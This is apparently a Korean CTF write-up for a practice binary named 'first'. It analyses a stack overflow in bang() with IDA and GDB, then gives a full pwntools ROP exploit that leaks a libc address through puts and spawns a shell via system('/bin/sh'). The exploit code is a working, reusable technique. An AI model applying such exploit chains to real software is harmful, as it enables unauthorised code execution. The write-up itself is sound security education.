 # first 문제 풀이

- 라젠카 ROP(x64)를 참고하여 실습을 진행할 예정이다.



## Proof of concept

### checksec

![image](https://user-images.githubusercontent.com/59410565/119918504-924c9900-bfa3-11eb-9374-0d51887d1700.png)

64bit 파일이고, Partial RELRO와 NX가 적용되어 있다. 따라서 함수 호출 시 해당 함수의 주소의 알아오고, 이를 이용하여 NX bit를 우회하는 ROP 공격을 할 수 있을 것 같다.



### IDA

> main() 함수

![image](https://user-images.githubusercontent.com/59410565/119919504-8e217b00-bfa5-11eb-8615-ebe43920b4f9.png)

"This is my FIRST PWNABLE!!"을 출력하고 load(0xA(=10))을 반환한다.

> load() 함수

![image](https://user-images.githubusercontent.com/59410565/119919215-ead06600-bfa4-11eb-9269-2f3118c60d1f.png)

v2에 인자로 전달받은 a1(10)을 대입하고, "How Many Bullets do you have?"를 출력한다. v3을 입력받고 만약 a1이 v3보다  크다면 v2의 값을 v3으로 바꿔준다. 그리고 v2의 값과 함께 "You have %dbullets\n"을 출력한다.

> bang() 함수

![image](https://user-images.githubusercontent.com/59410565/119919241-f9b71880-bfa4-11eb-938b-1b4dab1d54d3.png)

"Who is your Target?"을 출력하고 read() 함수를 사용해 0x64(100)만큼 입력을 받는다. 이때 buf의 크기보다 더 많은 값을 입력받아 overflow가 발생한다.



### GDB

![image](https://user-images.githubusercontent.com/59410565/119920224-ec9b2900-bfa6-11eb-8cd3-221612dfee3e.png)

**[Break Point]**

- bang+0 : bang() 함수 코드 첫 부분
- bang+35 : read() 함수 호출 전

![image](https://user-images.githubusercontent.com/59410565/119922976-d80d5f80-bfab-11eb-85db-77e3679bdecc.png)

![image](https://user-images.githubusercontent.com/59410565/119923010-e5c2e500-bfab-11eb-858f-75d0e5648814.png)

Return address(0x7ffe3acb7838) - buf 변수의 시작 주소(0x7ffe3acb7820) = 24. 즉, 24개 이상의 문자를 입력함으로써 RET을 변조할 수 있다.



### plt, got 주소 찾기 - read, scanf

> pwntools를 사용하여 주소를 출력하기

```python
from pwn import *

e = ELF("./first")
print("read@plt : " + str(hex(e.plt["read"])))
print("read@got : " + str(hex(e.got["read"])))
print("scanf@plt : " + str(hex(e.plt["scanf"])))
print("scanf@got : " + str(hex(e.got["scanf"])))
```

![image](https://user-images.githubusercontent.com/59410565/119924153-0429e000-bfae-11eb-867d-da5810237daf.png)



### "/bin/sh" 찾기

![image](https://user-images.githubusercontent.com/59410565/119925390-52d87980-bfb0-11eb-8b4b-522a0985219e.png)

![image](https://user-images.githubusercontent.com/59410565/119925478-80bdbe00-bfb0-11eb-8e01-04d5e538bb48.png)

"/bin/sh"의 offset은 0x18ce57이다.



### 쓰기 가능한 영역 찾기

![image](https://user-images.githubusercontent.com/59410565/119924420-831f1880-bfae-11eb-8007-3bf54ff6a305.png)

해당 바이너리의 0x601000 ~ 0x602000 영역에 쓰기 권한이 부여되어 있다.

![image](https://user-images.githubusercontent.com/59410565/119924479-9d58f680-bfae-11eb-83a2-cb03b42d629e.png)

![image](https://user-images.githubusercontent.com/59410565/119924522-b5307a80-bfae-11eb-94df-db3f37bf5ff4.png)

.got.plt / .data / .bss 가 앞에서 확인한 쓰기 가능한 영역에 포함되어 있다.



### 가젯 찾기

> rp++

![image](https://user-images.githubusercontent.com/59410565/119924702-0ccee600-bfaf-11eb-8b49-9425e540b6d4.png)

> ROPgadget

![image-20210528122102639](C:\Users\hyera\AppData\Roaming\Typora\typora-user-images\image-20210528122102639.png)



### system() 주소 찾기

![image](https://user-images.githubusercontent.com/59410565/119926112-b44d1800-bfb1-11eb-89ab-f2025c83543f.png)



### Exploit

------

#### Exploit 순서

```
- puts.plt에 read.got를 넣어 leak
- elf.libc.symbols['**']로 **의 주소를 가져온다. 
- u64(r.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
	-> u64 : 리틀 엔디안으로 패킹된 문자열을 언패킹 해서 int형으로 반환(주로 메모리 릭을 하여 얻은 주소에 사용)
	-> ljust : leak 주소가 8byte를 모두 차지하고 있지 않으면 빈 공간을 "\x00"으로 채워주는 역할
```



#### Exploit code

> elf.symbols[] : 바이너리 함수 내에서 정의된 함수의 주소
>
> a.plt(b.got) >> b의 주소를 a의 plt에 

```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
r = process('./first')
e = ELF("./first")
  
libcbase_read_offset = e.libc.symbols['read']
print(hex(libcbase_read_offset))
libcbase_system_offset = 0x453a0

binsh_offset = 0x18ce57 

pop_rdi_ret = 0x400713

puts_plt = e.plt['puts']
read_got = e.got['read']
bang = e.symbols['bang']

payload = "A"*24
payload += p64(pop_rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(bang)

r.sendlineafter("have?\n",p64(1))
r.sendafter("Target?\n", payload)

read_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
libcbase = read_addr - libcbase_read_offset
print(hex(read_addr))

payload = "A"*24
payload += p64(pop_rdi_ret)
payload += p64(libcbase + binsh_offset)
payload += p64(libcbase + libcbase_system_offset)

r.send(payload)
r.interactive()
```

결과

![image](https://user-images.githubusercontent.com/59410565/119938225-08aec280-bfc7-11eb-9a1a-b44f26e37d32.png)
